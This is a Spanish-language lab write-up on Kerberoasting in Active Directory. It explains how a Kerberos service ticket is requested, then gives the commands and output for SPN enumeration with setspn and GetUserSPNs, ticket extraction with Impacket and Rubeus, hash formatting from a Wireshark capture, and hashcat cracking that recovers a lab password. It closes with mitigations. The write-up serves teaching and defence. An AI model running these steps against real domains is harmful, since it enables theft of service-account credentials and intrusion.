





## Introduccion
En el mundo de la ciberseguridad, comprender cómo funcionan los mecanismos de autenticación no solo ayuda  a  administrarlos  mejor,  sino  también  a  identificar  posibles  debilidades.  Uno  de  los  ataques  más conocidos  contra  entornos  Active  Directory  es  el  Kerberoasting,  una  técnica  que  demuestra  cómo  un protocolo diseñado para brindar seguridad puede ser aprovechado de manera indebida si no se aplican las medidas correctas. Este es un laboratorio que expone maneras de explotarlos con fines didácticos y para ser usado en entornos controlados como máquinas CTF.
## <a name="_page2_x28.35_y181.50"></a>**¿Qué es Kerberoasting?** 

Kerberoasting es una técnica de ataque contra **Active Directory** que aprovecha la forma en que funciona el protocolo  **Kerberos**.  En  concreto,  permite  a  un  atacante  solicitar  tickets  de  servicio (TGS) asociados a cuentas de servicio dentro del dominio y, luego, extraer de esos tickets un hash que puede ser crackeado offline. De esta manera, se busca obtener la contraseña en texto plano de la cuenta de servicio, que muchas veces tiene privilegios elevados dentro de la red corporativa. 

Lo interesante de este ataque es que no requiere privilegios de administrador en un inicio: cualquier usuario autenticado  en  el  dominio  puede  realizarlo,  lo  que lo convierte en una de las técnicas más comunes y peligrosas en entornos Windows. 
## <a name="_page2_x28.35_y361.10"></a>**¿Por qué hablar de Kerberoasting?** 
Este ataque es muy común en en quienes realizamos pentesting ofensivo (red team) ya que NO requiere interacción con el servicio, y se puede usar el acceso legítimo a Active Directory para solicitar y exportar el ticket de servicio, que puede descifrarse sin conexión para recuperar la contraseña de texto plano del servicio. En la mayoría de los casos, las cuentas de servicio son cuentas de máquina, con contraseñas muy complejas, largas y aleatorias. Sin embargo, si una cuenta de servicio, con una contraseña definida por el usuario, tiene un  `SPN`  configurado,  los  atacantes  pueden  solicitar  un  ST  para  este  servicio  e  intentar  descifrarlo  sin conexión.  

Esta redacción tiene un fin exclusivamente divulgativo, orientado a comprender la técnica y, sobre todo, a promover buenas prácticas de seguridad que permitan mitigar este tipo de ataques. 
## <a name="_page3_x28.35_y56.69"></a>Fundamentos del ataque 
Vamos a desglosar detalladamente en qué consiste el ataque para entenderlo de forma clara. 

Una vez sabido que un usuario tiene asociado mediante  ``SPN`` a una cuenta de servicio, podemos proceder a solicitar un ticket para hacer uso del mismo. 
### <a name="_page3_x28.35_y152.41"></a>Pasos para solicitar un TICKET a una cuenta de Servicio 
Normalmente los pasos para solicitar un ticket para acceder a una cuenta de servicio son (6) 

1. El usuario envía al KDC del DC una solicitud de autenticación para sí mismo, normalmente con las credenciales del usuario. Esto se llama Authentication Service Request (AS-REQ) 
1. El KDC responde con un TGT cifrado con la clave secreta del KDC.  
1. El usuario, ya con el TGT, solicita al Ticket Granting Service (que forma parte del KDC) un ticket para acceder a la cuenta de servicio deseada. 


 *El TGS responde enviando el *Service Ticket cifrado* con la clave de la cuenta de servicio y una copia de la clave de sesión cliente/servicio cifrada con la clave del cliente*



5. El cliente presenta el ticket de servicio al servidor que aloja la cuenta de servicio 
5. Si el servidor puede descifrarlo y validar la clave de sesión, concede el acceso sin pedir credenciales nuevamente.


## <a name="_page4_x28.35_y56.69"></a>**Descubrimiento del `SPN`:**
Los servicios compatibles con la autenticación Kerberos requieren un Nombre Principal de Servicio (`SPN`) asociado para dirigir a los usuarios al recurso adecuado para la conexión. El descubrimiento de  `SPN`  dentro  de  una  red  interna  se  realiza  mediante  consultas  LDAP  y  puede  ayudar  a  los pentesters a identificar hosts que ejecutan servicios importantes como `Microsoft SQL, etc.`, Además, la identificación de `SPN` es el primer paso para un ataque de kerberoasting. 



este es un usuario que tiene permisos para ejecutar una cuenta de  servicio de Microsoft SQL Server 

Una manera de encontrar cuentas de servicio asociadas con un `SPN`, sin la GUI es ejecutando el binario `setspn` que viene incluido en windows server. 
```powershell
PS C:\Users\attacker> setspn -T dc.luc4s -Q */*
Comprobando el dominio DC=dc,DC=luc4s
CN=WIN-JP12TQDPP2D,OU=Domain Controllers,DC=dc,DC=luc4s
 TERMSRV/WIN-JP12TQDPP2D
 TERMSRV/WIN-JP12TQDPP2D.dc.luc4s
 Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/WIN-JP12TQDPP2D.dc.luc4s
 ldap/WIN-JP12TQDPP2D.dc.luc4s/ForestDnsZones.dc.luc4s
 ldap/WIN-JP12TQDPP2D.dc.luc4s/DomainDnsZones.dc.luc4s
 DNS/WIN-JP12TQDPP2D.dc.luc4s
 GC/WIN-JP12TQDPP2D.dc.luc4s/dc.luc4s
 RestrictedKrbHost/WIN-JP12TQDPP2D.dc.luc4s
 RestrictedKrbHost/WIN-JP12TQDPP2D
 RPC/e08aa9f1-ac85-4594-907f-0509ca408350._msdcs.dc.luc4s
 HOST/WIN-JP12TQDPP2D/DC
 HOST/WIN-JP12TQDPP2D.dc.luc4s/DC
 HOST/WIN-JP12TQDPP2D
 HOST/WIN-JP12TQDPP2D.dc.luc4s
 HOST/WIN-JP12TQDPP2D.dc.luc4s/dc.luc4s

E3514235-4B06-11D1-AB04-00C04FC2DCD2/e08aa9f1-ac85-4594-907f-0509ca408350/dc.luc4s
 ldap/WIN-JP12TQDPP2D/DC
 ldap/e08aa9f1-ac85-4594-907f-0509ca408350._msdcs.dc.luc4s
 ldap/WIN-JP12TQDPP2D.dc.luc4s/DC
 ldap/WIN-JP12TQDPP2D
 ldap/WIN-JP12TQDPP2D.dc.luc4s
 ldap/WIN-JP12TQDPP2D.dc.luc4s/dc.luc4s
CN=svc_sql,CN=Users,DC=dc,DC=luc4s
 MSSQLSvc/dc-luc4s.dc.luc4s:1433
 MSSQLSvc/dc.lab.local:1433
```
Se encontró un `SPN` existente. 

- Donde efectivamente se encontró la misma cuenta que en la interfaz gráfica anteriormente. 

 

Otra manera es utilizar un script automatizado, `*GetUserSPNs.ps1*` es un script que desarrolló Tim Mein y forma parte del kit de herramientas kerberoast. Tiene un enfoque más específico en comparación con setspn. 
link del script:  <https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1>
```powershell
PS C:\Users\attacker\Desktop> .\GetUserSPNs.ps1
ServicePrincipalName : MSSQLSvc/dc-luc4s.dc.luc4s:1433
Name : svc_sql
SAMAccountName : svc_sql
MemberOf :
PasswordLastSet : 22/07/2025 14:36:12
ServicePrincipalName : MSSQLSvc/dc.lab.local:1433
Name : svc_sql
SAMAccountName : svc_sql
MemberOf :
PasswordLastSet : 22/07/2025 14:36:12
```

Hay varias maneras de encontrar que cuentas Kerberosteables, ya sean por binarios del sistema windows o por script automatizados escritos por la comunidad, como quiero enfocarme en el ataque no voy a entrar tanto en detalle cómo obtenerlos, para este laboratorio se utilizó la herramienta `bloodhound`, ya que permite ver estas relaciones en forma de grafos. 


 6 


## <a name="_page7_x28.35_y56.69"></a>Diversas perspectivas de ataque
Para  iniciar  el  ataque  Kerberoasting,  se  necesitarán  credenciales  válidas,  generalmente  una  cuenta  de usuario  de  dominio.  Esta  cuenta  no  requiere  privilegios  administrativos  específicos.  A  continuación  se muestran varias maneras de realizar el mismo ataque:  
## <a name="_page7_x28.35_y156.61"></a>**Con Impacket: automatizando la extracción**
Impacket es una colección de scripts y herramientas de Python diseñadas para interactuar con protocolos de red y realizar diversas tareas de seguridad. Se utiliza ampliamente para la explotación de Active Directory y es una opción predilecta para los pentesters. 

Este script nos facilita el paso de tener que solicitar un ticket y luego darle formato al hash, es además muy rápido.  

link del proyecto: [https://github.com/fortra/impacket ](https://github.com/fortra/impacket)Ejemplos de uso de manera genérica 

- con una contraseña 
```
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password' -request 
```
- con un NT hash 
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER' 
```
Expondremos ahora un ejemplo con credenciales válidas. 
```python
alialucas7[~] $ GetUserSPNs.py -dc-ip 192.168.56.2
'dc.luc4s/attacker:super_contraseña' -request
Impacket v0.13.0.dev0+20250415.195618.c384b5f - Copyright Fortra, LLC and its
affiliated companies
ServicePrincipalName Name MemberOf PasswordLastSet
LastLogon Delegation
------------------------------- -------- -------- --------------------------
-------------------------- ----------
MSSQLSvc/dc-luc4s.dc.luc4s:1433 svc_sql 2025-07-22 14:36:12.033783
<never>
MSSQLSvc/dc.lab.local:1433 svc_sql 2025-07-22 14:36:12.033783
$krb5tgs$23$*svc_sql$DC.LUC4S$dc.luc4s/svc_sql*$18d0e9fac7f0a41564d30e24504813c1$
5379d2584d32e16aeb08e538d7a880434b3000fafad86b1025350e38a02980e6b9e3b44f104e8dfaf
d2f26832a05606af0e7495f81fc8c3d2cb96c7a1c86479256cb08e5c19ab42ee1dd63a7dfb0e058a7
35b73dc686613b734e2ce848b13385ac2336fe032858fdb9767d5fd0aa59e1fbac356d9d9405a760d
0f87c1dd067b7b67a45bb59996c86b0ac1bdb194c0d84c8716a919597263c54a970fb115e65f19b31
146171abf9625273486565a7da1ae56d867fa51f1337a961800d14d2395cbfade30abfe5738373eea
84c97c22c8cdb368257f3f9683db68cfe1a929db1727eaf7cb4803532be56aa6c1059eb6441a9ad5f
a99a06fa1711accfebf0b363b56350dda108453abe3e5b881e83e85184bb1a1ff938e56b703206b57
07dccecce8ec076c4f5a2259bd7b191dff3ec856052e45d0c79cdc22bea6d3fc9a0801ad58034bd86
0837f9cc96cd42228ede5639d5279465662833d19f94155db261e16e6715230bb929d59e2f1591bc2
fa0d64bc5bd5be5a627b0636ed46fcb113836964043e0235b24056d3820606172e035cc5e737242bc
a27667fca3c0fbbacd4d976d5ba65838335587a2f162195f2604dab437087c51abdf78bbd48e9d50d
db7f0dfe416ca92f11d9f37332e8b7d37facb53ad086abee5bb0fa0cdaf8bc459619095bc0f2dcffd
cd99b4ee9541f0853f8eb4a6bf5c84b0e99e1e49c1908538ae9ec14a222fff198eb4d26e873b1f923
42874fdc027bf82f5f05e284d0680eec75aa6ffb2f7e5e17c4da15bfd29f1ceaed7d9802a9ba2cf91
5aceaddd565b09438cfe75e478b15c9b39a0b433a1e314ed808c02a0103f2d190add5b95367dd831d
5825574a4251510cef0f635fc288cdde01d0ab2eec91e4ff1186e902929c4ad2204f6eadeadec7c8c
730e9c9f0c85ed8e715c86c6633d25787789dae2368315d2f761b380b59f1a7db43e1e7da455d5902
719f8ed1831cbaf6d22666c88130e9ec608d45182a499a60b7c1d6f9372fbb3e3ee802835cccd2f61
c4a69b92c78f498095eec0a7e53aef139b5b1ad199c672bc1c7a2d337fd711aa8da4855e2fb51e43f
995928a6f81cdb7370c37aa3af0dc056299335cdf6dcd1b9a5f50559bbc7e72c96b5975ef111ba405
34266d44fa51180e9fb57ab3952d49ab538693b798748b9ba807fbef370bc692b2c82f703508faf66
fc0452ab925c4381f8f50af88198b7dcc9c2438ea134939a40c82dfbe33ad72983b69a1a2c42680cc
36e99f20bd46b3823e549c188205c1baa625c30d650489d130c826a2941e5b320e9ea5d42eb822cdd
fead60255bd9380b29607fc20c1424282760760479a9c0c841889f1bacfe76fc48a5222c6a07c6d35
8ac7781dac14a09bc8244d309ef7dfa50a1ca2e4d74d9e2d7ab381c92d5969da912cd5ad54f5f4b0d
f1b9fd0542c9209cae8
```
## <a name="_page9_x28.35_y56.69"></a>**Con Rubeus: enfoque desde Windows**
Rubeus es un conjunto de herramientas de C# para la interacción y el control de abusos de Kerberos. Es una herramienta versátil diseñada específicamente para interactuar con tickets Kerberos y comprender el flujo de autenticación. Este escenario es candidato si suponemos que tenemos acceso a la máquina víctima. 

link del proyecto: [https://github.com/GhostPack/Rubeus ](https://github.com/GhostPack/Rubeus)

- cabe destacar que Rubeus tiene varias funcionalidades, kerberoast es solo una de ellas. 
```basic
PS C:\tmp\Rubeus> .\Rubeus.exe kerberoast
 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
 v2.2.0
[*] Action: Kerberoasting
[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*] Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.
[*] Target Domain : dc.luc4s
[*] Searching path 'LDAP://WIN-JP12TQDPP2D.dc.luc4s/DC=dc,DC=luc4s' for
'(&(samAccountType=805306368)(servicePrincipalNa
me=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'
[*] Total kerberoastable users : 1
[*] SamAccountName : svc_sql
[*] DistinguishedName : CN=svc_sql,CN=Users,DC=dc,DC=luc4s
[*] ServicePrincipalName : MSSQLSvc/dc-luc4s.dc.luc4s:1433
[*] PwdLastSet : 22/07/2025 14:36:12
[*] Supported ETypes : RC4_HMAC_DEFAULT
[*] Hash 
```




## <a name="_page11_x28.35_y56.69"></a>**Con Wireshark: observando el tráfico en la red**

Este es el enfoque más interesante, ya que se puede ver a más detalle cómo funciona el ataque.
* Como primer paso solicitamos el ticket TGT 
```python3
getTGT.py -dc-ip 192.168.56.2 dc.luc4s/attacker:'super\_contraseña' Impacket v0.13.0.dev0+20250415.195618.c384b5f - Copyright Fortra, LLC and its affiliated companies 

[\*] Saving ticket in attacker.ccache
```
* Solicitamos ahora el ticket de servicio 
```python3
getST.py -dc-ip 192.168.56.2 -spn 'MSSQLSvc/dc-luc4s.dc.luc4s:1433' dc.luc4s/attacker:'super\_contraseña' 

Impacket v0.13.0.dev0+20250415.195618.c384b5f - Copyright Fortra, LLC and its affiliated companies 
[\*] Getting ST for user 
[\*] Saving ticket in attacker@MSSQLSvc\_dc-luc4s.dc.luc4s:1433@DC.LUC4S.ccache 
```
Luego de ello, verificamos si wireshark logró capturar el paquete cuando solicitamos el ticket, lo cual lo hizo efectivamente (trama 268). 

Al capturar el tráfico con wireshark durante una petición Kerberos, es posible obtener el **cipher en bruto** ,dentro de la respuesta `TGS-REP`. Sin embargo, este valor no se encuentra listo para ser procesado directamente por herramientas de cracking. Es necesario darle el **formato adecuado** (por ejemplo, el estándar que utiliza Hashcat o John the Ripper)  

El hash entonces debe tener un formato como el siguiente: 
`
$krb5tgs$23$\*<username>$<REALM>$<SPN>\*<checksum>$<edata2> 
`
</br>Donde 

- `username` → es la cuenta de servicio (svc\_sql). 
- `REALM`    → el dominio en mayúsculas (DC.LUC4S). 
- `SPN`         → el Service Principal Name (ejemplo: MSSQLSvc/dc-luc4s.dc.luc4s:1433). 
- `checksum`→ son los primeros 16 bytes (32 hex) del blob RC4. 
- `edata2`     → es el resto del cipher. 

Con los datos obtenidos de la captura wireshark el hash queda de la siguiente forma: 

```hash
$krb5tgs$23$\*svc\_sql$DC.LUC4S$MSSQLSvc/dc-luc4s.dc.luc4s:1433\*$7e3cdf15f4d00e4b40 3eabc604e90299$70e493877c3044ec20fda47e7932c4a4ebed194409c2015f89494b88206561f2cf 4f4ef97e82d8a37b16707630b11613f5b7cf552c66a3ec280c1929dfc6031c68f5d1ad3d51daf7cec b84b38228abdfe10959ee2cec71485ca6e0e99f387167a01301f6ced61f5309343abaee6eaf26bf80 66f1bb6ad71228243b25ee4fed2564f1f96c87ec964b2adfa19c2f8490a7b659b7b7685ed1dd684b7 260bcd1d4ff272cf232c56f633e138145142f0357466bae8461c8ad5f26eb0acb8fe52f722994073a 1fceafe7bc17d27faf1480c6660591c9be481481a637a39b7b49a053b22d239fef096d04c6d844565 950d7cd7666a765651135654700e9a104c3ed9726ed76f5e88affebea0241676d5dc00e35234524d9 ba04202131e8ee4a91d22bc5982c04e2412aa77006190de3c2cef8bd8e09fe4fbc8fdd81d5dd7f0af 5808f049a0a6f8a8389c94f3cfe8493d6127031b51a03e3888a076046649dae4bb256567db3d37cbe 42584905e4776a71f6b99b4d36c9bb9c7dda84c9b15e1c1f22707521c13e4a42bf34e519a4e1243a9 b7756aa11cbabd38acb95dfb0e7b014925256081414a643c7badd6a4b353e027f535fb3037c8dd982 2520aa9435640a6ddcc2b94efb615d8496b9f5e61695cf2a0bfd85ffec666a89ba37d50221f9b5dcd 5f480af8a6ac021ba4c837a8e06865b32609a884cf0dcf12bc5c5b63b1956399c8cbbb2c85756f4fe 957b494ca8ace4ed7d7e065900834f286d4d8452b1d8c2e21340a290eb4657cea3ab8f0dc912c8b2d

094cae9bbc110b6267308429178b0da10472a9d3ca34c7a6a05c9c9295e572e7405b02bb99588d822 f776a6be015f670299a533cb09050719b2e01a1f534d2892be387ea463666a34e483f445e4deb0414 f624199a5765e4b876d2e385374ac76cb97b3c6258843af6078e30ab667b9682dfff944ab2b0d2515 1b9a31fab0776dbbb5967fad876232d97b4a5d1046bf58d2fc0a370032f055b172e030dba860568e3 45035be401aa1a4555b6636a694e6a415d732d671eefc9a7162e8fc16c5318c46c079d7ac77c73788 b730c346d87111a6b5d4e5754e7c2b970854ee9ab984fa2d157523943fc76536d35f7b9e90722a0e9 5c8ac2a902f349338b18be32870b94c8234ed046045f2c02b322568eaa85a6a6e6f4c072774e0ac67 2651a185c62d4fae836871150f1370878c526bff9c3bf060e9155310b051eac8471f4170a1bdc7129 2f1886a7b73229695c1785abba6d098932775771b57efd10e4368c2ac6ec7c7eae4bd5a1d89d4d91e ae1d3363ebeac0957e7478d7bcc29ea50664a079612aaaa4d2105ffe711078abf62c7eb184a03f4ac ea00b14f00566e80011505e0b0c25e85e557b167e14f62b4e05aaac85f6bd98a3185c26879d35fbe0 660910473af960a9166222ae271ce0f658
``` 
## <a name="_page13_x28.35_y56.69"></a>Crackeo de Hash
Todos los ejemplos mostrados terminan con la obtención de un hash. La particularidad de este dato es que aunque en apariencia ilegible, puede ser sometido a ataques de fuerza bruta o de diccionario para recuperar la contraseña original en texto claro. 

- En hashcat, el modo para este tipo de hash kerberos es el 13100, intentaremos romper este cifrado 




Bingoo!!   contraseña obtenida 💀 



hashcat -m 13100 hash.txt /secLists/wordlist/rockyou.txt --force --show $krb5tgs$23$\*svc\_sql$DC.LUC4S$MSSQLSvc/dc-luc4s.dc.luc4s:1433\*$7e3cdf15f4d00e4b403eabc6 04e90299$70e493877c3044ec20fda47e7932c4a4ebed194409c2015f89494b88206561f2cf4f4ef97e82d8 a37b16707630b11613f5b7cf552c66a3ec280c1929dfc6031c68f5d1ad3d51daf7cecb84b38228abdfe1095 9ee2cec71485ca6e0e99f387167a01301f6ced61f5309343abaee6eaf26bf8066f1bb6ad71228243b25ee4f ed2564f1f96c87ec964b2adfa19c2f8490a7b659b7b7685ed1dd684b7260bcd1d4ff272cf232c56f633e138 145142f0357466bae8461c8ad5f26eb0acb8fe52f722994073a1fceafe7bc17d27faf1480c6660591c9be48 1481a637a39b7b49a053b22d239fef096d04c6d844565950d7cd7666a765651135654700e9a104c3ed9726e d76f5e88affebea0241676d5dc00e35234524d9ba04202131e8ee4a91d22bc5982c04e2412aa77006190de3 c2cef8bd8e09fe4fbc8fdd81d5dd7f0af5808f049a0a6f8a8389c94f3cfe8493d6127031b51a03e3888a076 046649dae4bb256567db3d37cbe42584905e4776a71f6b99b4d36c9bb9c7dda84c9b15e1c1f22707521c13e 4a42bf34e519a4e1243a9b7756aa11cbabd38acb95dfb0e7b014925256081414a643c7badd6a4b353e027f5 35fb3037c8dd9822520aa9435640a6ddcc2b94efb615d8496b9f5e61695cf2a0bfd85ffec666a89ba37d502

21f9b5dcd5f480af8a6ac021ba4c837a8e06865b32609a884cf0dcf12bc5c5b63b1956399c8cbbb2c85756f 4fe957b494ca8ace4ed7d7e065900834f286d4d8452b1d8c2e21340a290eb4657cea3ab8f0dc912c8b2d094 cae9bbc110b6267308429178b0da10472a9d3ca34c7a6a05c9c9295e572e7405b02bb99588d822f776a6be0 15f670299a533cb09050719b2e01a1f534d2892be387ea463666a34e483f445e4deb0414f624199a5765e4b 876d2e385374ac76cb97b3c6258843af6078e30ab667b9682dfff944ab2b0d25151b9a31fab0776dbbb5967 fad876232d97b4a5d1046bf58d2fc0a370032f055b172e030dba860568e345035be401aa1a4555b6636a694 e6a415d732d671eefc9a7162e8fc16c5318c46c079d7ac77c73788b730c346d87111a6b5d4e5754e7c2b970 854ee9ab984fa2d157523943fc76536d35f7b9e90722a0e95c8ac2a902f349338b18be32870b94c8234ed04 6045f2c02b322568eaa85a6a6e6f4c072774e0ac672651a185c62d4fae836871150f1370878c526bff9c3bf 060e9155310b051eac8471f4170a1bdc71292f1886a7b73229695c1785abba6d098932775771b57efd10e43 68c2ac6ec7c7eae4bd5a1d89d4d91eae1d3363ebeac0957e7478d7bcc29ea50664a079612aaaa4d2105ffe7 11078abf62c7eb184a03f4acea00b14f00566e80011505e0b0c25e85e557b167e14f62b4e05aaac85f6bd98 a3185c26879d35fbe0660910473af960a9166222ae271ce0f658:`Password123!`
## <a name="_page14_x28.35_y56.69"></a>**Mitigación**
Para reducir la superficie de ataque frente a Kerberoasting, es fundamental aplicar buenas prácticas de gestión en cuentas de servicio y en la configuración del entorno Active Directory: 

- **Contraseñas robustas y largas para cuentas de servicio**: Las contraseñas de cuentas de servicio deben ser únicas, complejas y con gran longitud. Esto dificulta que los hashes extraídos mediante Kerberoasting puedan ser resueltos con ataques de fuerza bruta o diccionario. Una buena práctica es aplicar frases de contraseña de más de 25–30 caracteres. 
- **Revisar periódicamente permisos y ACLs**: Las cuentas de servicio suelen acumular permisos innecesarios con el tiempo. Es importante auditar de manera regular las ACLs para identificar accesos excesivos y reducirlos al mínimo indispensable (principio de menor privilegio). 
- **Evitar cuentas de servicio con privilegios excesivos**: En lo posible, no asignar privilegios administrativos a cuentas de servicio. En su lugar, utilizar cuentas dedicadas con privilegios ajustados a la necesidad de la aplicación. 
- **Implementar cuentas de servicio administradas (gMSA)**: En lugar de contraseñas fijas y difíciles de rotar, se recomienda usar **Group Managed Service Accounts (gMSA)**, que permiten que las contraseñas se gestionen y roten automáticamente de forma segura. 
- **Monitoreo y alertas**: Detectar comportamientos anómalos es clave. Solicitudes inusuales de TGS hacia servicios poco utilizados o desde usuarios que normalmente no interactúan con esos servicios pueden indicar un intento de Kerberoasting. 
- **Rotación periódica de contraseñas**: Establecer políticas de rotación para contraseñas de cuentas de servicio que no utilicen gMSA, reduciendo así el tiempo de exposición en caso de compromiso. 

En resumen, la mitigación de Kerberoasting no depende de una única medida, sino de la combinación de **gestión segura de contraseñas**, **control de permisos** y **monitoreo constante** dentro del entorno de Active Directory. 
 

[ref1]: Aspose.Words.08ebb1d8-49f9-447e-b5c8-f1d77ce92f9d.001.png

Gracias por leer :)
</br> Happy Hacking
